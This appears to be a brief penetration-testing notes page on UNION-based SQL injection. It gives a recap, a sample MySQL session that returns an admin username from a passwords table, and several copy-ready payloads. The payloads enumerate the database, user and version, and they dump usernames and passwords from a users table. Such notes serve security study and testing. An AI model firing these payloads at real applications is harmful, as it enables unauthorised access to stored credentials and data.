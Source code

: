 # UNION Based SQL Injection





## Recap

UNION clauses allow for an additional SQL statement. It's always worth testing for this type of injection. WE MUST FILL ADDITIONAL COLUMNS WITH JUNK DATA.

```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```



### Examples

```sql
%' UNION SELECT database(), user(), @@version, null, null -- //
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```sql
' UNION SELECT null, null, database(), user(), @@version  -- //
```

```sql
' UNION SELECT null, username, password, description, null FROM users -- //
```

> \
>
